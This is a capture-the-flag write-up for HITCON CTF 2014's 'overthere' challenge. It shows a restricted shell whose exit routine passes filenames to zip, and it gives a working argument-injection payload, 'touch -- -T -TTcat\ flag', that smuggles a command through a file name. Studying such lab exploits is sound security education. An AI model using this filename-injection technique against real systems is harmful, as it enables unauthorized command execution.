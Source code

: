 # HITCON CTF 2014: overthere

**Category:** Misc.
**Points:** 179
**Description:**

> ```bash
> nc 210.65.11.5 4994
> ```

## Write-up

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.

$
```

Cool, a shell!

```
$ ls -lha
total 120K
drwxrwxrwx    2 2137755712 overthere 4.0K Aug 18 01:01 .
drwx-wx-wx 1270 root       root      108K Aug 18 01:01 ..
-rw-r--r--    1 2137755712 overthere    0 Aug 18 01:01 atdog_said_it's_easy
-rw-r--r--    1 2137755712 overthere   34 Aug 18 01:01 flag

$ help
Command:
	echo, exit, touch, cat, ls
id - return user identity
uname - display information about the system
echo - write arguments to the standard output
touch - change file access and modification times
ls - list directory contents
cat - concatenate and print files
exit - backup your files and exit

$ id
uid=2137755712 gid=1001(overthere)

$ uname
Linux

$ uname -a
Linux ctf 3.13.0-30-generic #54-Ubuntu SMP Mon Jun 9 22:45:01 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, so a lot of things work. However, there are some problems. For example, you can’t directly `cat` a file:

```bash
$ cat flag
Serious? Are you kidding me?!
$ touch test
$ cat test
Serious? Are you kidding me?!
```

Output redirection doesn’t work the way you’d expect it to:

```bash
$ echo test > test
Invalid character.
```

When we type exit we see the following:

```bash
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
Done.

Did you forget to catch the flag?

Bye!
```

We can see that at exit the current working directory is passed as arguments to the `zip` command. Using `touch` to create a new file that will be used as commandline arguments to `exit` seems like a viable option. A good thing to do is to leverage the `-T`/`--test` and `-TT` options of the `zip` command which do the following:

```
-T
--test
    Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
    Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used. On Unix, to use a copy of unzip in the current directory instead of the standard system unzip, could use:
    zip archive file1 file2 -T -TT "./unzip -tqq"

    In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command. The return code is checked for success (0 on Unix).
```

With this we see that we can force the zip archive to be tested and even provide the command to test with. The hard part about this attack is that we need to be able to create a file with the filname of commandline arguments which would normally be processed by `touch` and cause an error as they are not legitimate arguments to the `touch` command. We can remedy this by using the `--` argument which reads in our filename from STDIN instead of literally from the commandline.

Leveraging this information we come up with the following command which allows us to bypass the restriction of running cat directly as well as all other restrictions.

```bash
touch -- -T -TTcat\ flag
```

We run that command and then run `exit` and get the following

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.
$ touch -- -T -TTcat\ flag
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
HITCON{0ld_7rick5_alw4y5_workS!!}
PK
ocEatdog_said_it's_easyUT	���S���Sux
                                          �Z��PK
ocE��atdog_said_it's_easyUT���Sux
                                 �Z��PKZNtest of takeaway.zip OK
Done.

Did you forget to catch the flag?

Bye!
```

The flag is
> `HITCON{0ld\_7rick5\_alw4y5\_workS!!}`.

## Other write-ups and resources

* <http://givemesecurity.info/2014/08/18/overthere-writeup-hitcon-2014/>
* [Unix Wildcards Gone Wild](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
* <https://gist.github.com/anthraxx/fe4984780a9f284dee08>
* <https://rzhou.org/~ricky/hitcon2014/overthere/>
